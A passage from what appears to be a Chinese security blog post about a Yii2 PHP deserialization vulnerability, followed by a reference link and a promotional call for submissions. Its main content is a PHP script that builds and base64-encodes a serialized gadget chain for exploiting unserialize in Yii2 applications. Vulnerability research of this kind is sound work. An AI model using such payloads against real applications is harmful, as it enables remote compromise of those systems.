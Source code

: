 ```
namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters['close'] = [new CreateAction, 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
?>
```

参考连接

https://xz.aliyun.com/t/8307

**通知！**

**公众号招募文章投稿小伙伴啦！只要你有技术有想法要分享给更多的朋友，就可以参与到我们的投稿计划当中哦~ 感兴趣的朋友公众号首页菜单栏点击【商务合作 - 我要投稿】即可。期待大家的参与~**

**![](https://mmbiz.qpic.cn/mmbiz_jpg/ia3Is12pQKnKRau1qLYtgUZw8e6ENhD9UWdh6lUJoISP3XJ6tiaibXMsibwDn9tac07e0g9X5Q6xEuNUcSqmZtNOYQ/640?wx_fmt=jpeg)**

**记得扫码**

**关注我们**